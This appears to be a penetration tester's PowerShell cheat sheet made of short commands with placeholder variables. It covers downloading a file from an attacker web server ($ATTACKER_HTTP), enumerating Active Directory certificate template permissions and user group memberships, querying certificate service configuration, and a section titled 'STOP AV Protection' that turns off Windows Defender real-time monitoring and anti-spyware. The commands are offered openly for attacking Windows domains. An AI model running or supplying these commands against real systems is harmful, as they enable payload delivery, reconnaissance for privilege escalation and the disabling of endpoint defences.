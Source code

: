 Common utilities:
----
Download file from web server, invoke web request:
#powershell #powershell-download #powershell-wget #iwr #invoke-web-request

```powershell
IWR -uri $ATTACKER_HTTP/$FILE -Outfile $FILE
```

Get list  of all available modules:
---
#windows #modules #powershell 

```powershell
Get-Module -ListAvailable
```

Import psm1 module as user:
---
#import #windows #powershell 

```powershell
Import-Module .\$MODULE
```

AD Enum and stuff
---
#windows #powershell #ad #users #enum 

```powershell
Import-Module ActiveDirectory
cd AD:
$acl = Get-Acl 'CN=User,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=$DOMAIN,DC=$AD_DOMAIN_EXT'
$acl.Access.Count
$acl.Access | where IdentityReference -match 'Domain Users'
```

Get User's Groups
---
#user #groups #windows #powershell 

```powershell
(Get-ADUser $USER –Properties MemberOf).MemberOf
```

or

```powershell
(New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$($env:username)))")).FindOne().GetDirectoryEntry().memberOf
```

using "Get-ADPrincipalGroupMembership":

```powershell
Import-Module ActiveDirectory
Get-ADPrincipalGroupMembership -Identity $USER
```

or

```powershell
Get-ADPrincipalGroupMembership -Identity $USER | Sort-Object name | Format-Table -Expand name
```

Get AD Certificate configuration from the registry:
---
#enum #certificate #ad-template 

```powershell
reg query $DOMAIN/HKLM/SYSTEM/CurrentControlSet/Services/CertSvc/Configuration/%3c$CA_NAME%3e
```

STOP AV Protection
---
#anti-virus #protection #stop #windows #powershell 


```powershell
Set-MpPreference -DisableRealtimeMonitoring $true  
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender"-Name DisableAntiSpyware -Value 1-PropertyType DWORD -Force
```

or prepend command with:

```powershell
powershell -command $CMD
```